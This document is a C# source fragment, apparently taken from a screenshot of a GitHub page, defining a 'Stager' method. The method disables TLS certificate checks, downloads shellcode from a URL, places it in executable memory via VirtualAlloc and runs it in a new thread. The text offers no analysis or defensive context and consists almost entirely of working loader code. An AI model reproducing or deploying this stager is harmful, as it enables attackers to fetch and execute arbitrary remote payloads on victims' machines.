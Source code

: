```

    public static void Stager(string url)
    {
        WebClient wc = new WebClient();
        // Bypass SSL certificate validation errors (e.g., for self-signed certs)
        ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
        // Ensure TLS 1.2 is used for the HTTPS connection
        ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

        byte[] shellcode;
        try
        {
            // Download the shellcode
            shellcode = wc.DownloadData(url);
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error downloading shellcode: " + ex.Message);
            return;
        }

        // Allocate executable memory in the current process
        IntPtr codeAddr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (codeAddr == IntPtr.Zero)
        {
            Console.WriteLine("VirtualAlloc failed. Error: " + Marshal.GetLastWin32Error());
            return;
        }

        // Copy the downloaded shellcode into the allocated memory
        Marshal.Copy(shellcode, 0, codeAddr, shellcode.Length);

        IntPtr threadHandle = IntPtr.Zero;
        uint threadId = 0;
        // IntPtr parameter = IntPtr.Zero; // Parameter to pass to the new thread (not used here)

        // Create a new thread to execute the shellcode
        threadHandle = CreateThread(IntPtr.Zero, 0, codeAddr, IntPtr.Zero, 0, out threadId);
        if (threadHandle == IntPtr.Zero)
        {
            Console.WriteLine("CreateThread failed. Error: " + Marshal.GetLastWin32Error());
            VirtualFree(codeAddr, 0, 0x8000); // MEM_RELEASE
            return;
        }

        // Wait for the shellcode thread to finish execution
        WaitForSingleObject(threadHandle, 0xFFFFFFFF); // INFINITE

        // Clean up (optional, as process is likely exiting or shellcode takes over)
        CloseHandle(threadHandle);
        VirtualFree(codeAddr, 0, 0x8000); // MEM_RELEASE
    }

    // VirtualFree P/Invoke needed for cleanup
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    private static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
}
```
